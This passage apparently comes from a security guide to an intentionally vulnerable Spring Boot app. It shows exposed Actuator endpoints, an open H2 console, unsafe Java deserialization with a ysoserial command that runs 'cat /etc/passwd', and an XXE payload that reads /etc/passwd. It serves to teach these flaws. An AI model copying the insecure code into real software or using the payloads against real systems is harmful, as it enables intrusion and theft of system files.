### 3. Exposed Actuator Endpoints
```yaml
# Dangerous configuration
management:
  endpoints:
    web:
      exposure:
        include: "*"
  endpoint:
    shutdown:
      enabled: true

# Attack URLs
http://localhost:8084/actuator/env
http://localhost:8084/actuator/heapdump
http://localhost:8084/actuator/shutdown (POST)
```

### 4. H2 Database Console
```yaml
spring:
  h2:
    console:
      enabled: true
      settings:
        web-allow-others: true

# Direct database access
http://localhost:8084/h2-console
# JDBC URL: jdbc:h2:mem:testdb
# Username: sa
# Password: (empty)
```

### 5. Insecure Deserialization
```java
@PostMapping("/import")
public void importData(@RequestBody byte[] data) {
    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(data));
    Object obj = ois.readObject(); // Vulnerable!
}

// Attack with ysoserial
java -jar ysoserial.jar CommonsCollections1 'cat /etc/passwd' | base64
```

### 6. XML External Entity (XXE)
```java
@PostMapping("/parse-xml")
public String parseXml(@RequestBody String xml) {
    DocumentBuilder db = DocumentBuilderFactory.newInstance().newDocumentBuilder();
    Document doc = db.parse(new InputSource(new StringReader(xml)));
    return doc.getDocumentElement().getTextContent();
}

// Attack
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<user>&xxe;</user>
```

